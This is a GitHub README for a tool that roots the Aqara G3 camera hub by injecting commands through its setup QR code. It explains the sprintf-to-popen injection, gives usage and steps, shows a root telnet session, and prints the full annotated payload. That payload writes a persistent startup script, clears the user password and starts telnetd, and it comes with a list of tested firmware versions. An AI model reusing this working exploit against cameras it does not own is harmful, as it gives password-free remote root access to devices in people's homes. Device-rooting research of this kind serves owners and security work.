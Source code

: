 # aQRootG3 #
### Enable telnet via qrcode command injection for Aqara G3 hub ###

<p align="center" width="100%">
    <img src="https://user-images.githubusercontent.com/1288525/146663111-146c18cc-f337-49a9-99b9-0e8f93e97e3a.jpg"> 
</p>


Intro
---------------
I was disappointed to see the Aqara G3 camera did not ship with telnet enabled so I managed to grab a copy of a firmware update for some good 'ol static analysis which confirmed none of the previous methods were going to work. Whilst going through  "ha_master" I did see that one of the variables passed in by the setup qrcode is thrown through sprintf as "nslookup %s" and subsequently passed to popen. (yay)
Getting telnet was fairly trivial, getting persistent telnet in one shot within the 132 char sprintf buffer and on a readonly filesystem was a little more challenging.
(Aqara have also changed their key ciphering for ssid and pwd)


Usage
---------------
```bash
usage: aQRootG3.py [-h] ssid pwd [filename]

aQRootG3 v0.2
Enable telnet via qrcode command injection for Aqara G3 hub

positional arguments:
  ssid        Wireless SSID
  pwd         Wireless Password
  filename    (Optional) Save QR Code as image

optional arguments:
  -h, --help  show this help message and exit
```


Steps
---------------
1. Reset the camera by pressing the button 10 times quickly.
2. When prompted (albeit probably in chinese) scan the QR code you've generated
3. This will give a failed message (due to invalid bind_key)
4. Add device to Aqara home as normal.
5. Enjoy.

```bash
$ telnet x.x.x.x
Trying x.x.x.x...
Connected to x.x.x.x.
Escape character is '^]'.

Camera-Hub-G3-BEEF login: root
Password:
1 ulimit=256
~ # uname -a
Linux Camera-Hub-G3-BEEF 4.9.84 #67 SMP PREEMPT Mon Sep 6 17:51:23 CST 2021 armv7l GNU/Linux
```


Payload Explanation
---------------
```python
payload=[
    'x="fw_man"ager.sh',                    # Workaround - Script checks if it's already running by grepping ps.
    'y=/data/scripts/post_init.sh',         
    '$x -t -f',                             # Create default /data/scripts/post_init.sh
    'z=`agetprop persist.app.bind_key`',    # post_init below exploits bind_key for additional storage
    'echo -e $z>$y',                        # Write the contents to /data/scripts/post_init.sh
    'tail -n2 $y|sh'                        # Clear $USER password, enable tty and start telnetd
],
post_init = [
    '#\\x21/bin/sh',                        # Due to 'echo -e' in payload we need to ensure ! is not evaluated
    'fw_manager.sh -r',                     # Start firmware as normal
    'passwd -d $USER',                      # Clear $USER password
    'fw_manager.sh -t -k'                   # Enable tty and start telnetd
],
}
```

Tested Versions
---------------

| Firmware Version | Status |
| --------------- | -- |
| 3.2.7_0019.0004 | :white_check_mark: |
| 3.3.2_0003.0004  | :white_check_mark: |
| 3.3.4_0007.0004  | :white_check_mark: |


